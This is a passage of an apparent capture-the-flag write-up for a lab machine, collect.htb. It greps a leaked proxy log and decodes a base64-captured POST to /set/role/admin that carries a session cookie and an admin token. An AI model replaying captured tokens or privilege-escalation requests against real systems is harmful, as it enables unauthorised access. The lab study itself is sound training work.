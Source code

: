 Copied the file locally and discovered a request to */set/role/admin.*

```
cat proxy.txt | grep -i collect.htb | sort -u
    <host ip="192.168.1.6">collect.htb</host>
    <host ip="192.168.1.6">forum.collect.htb</host>
    <url><![CDATA[http://collect.htb/set/role/admin]]></url>
    <url><![CDATA[http://collect.htb/]]></url>
    <url><![CDATA[http://forum.collect.htb/forumdisplay.php?fid=2]]></url>
    <url><![CDATA[http://forum.collect.htb/jscripts/inline_edit.js?ver=1821]]></url>
    <url><![CDATA[http://forum.collect.htb/jscripts/jeditable/jeditable.min.js]]></url>
    <url><![CDATA[http://forum.collect.htb/jscripts/rating.js?ver=1821]]></url>
```

There is a base64-encoded chunk of data for both the request and the server response.

<img src="/assets/img/pollution/image 9.png" alt="image 9.png" style="width:800px;">

The request contains a token. This might be sensitive information.

```bash
echo UE9TVCAvc2V0L3JvbGUvYWRtaW4gSF<SNIP> | base64 -d; echo
POST /set/role/admin HTTP/1.1
Host: collect.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=r8qne20hig1k3li6prgk91t33j
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

token=ddac62a28254561001277727cb397baf
```
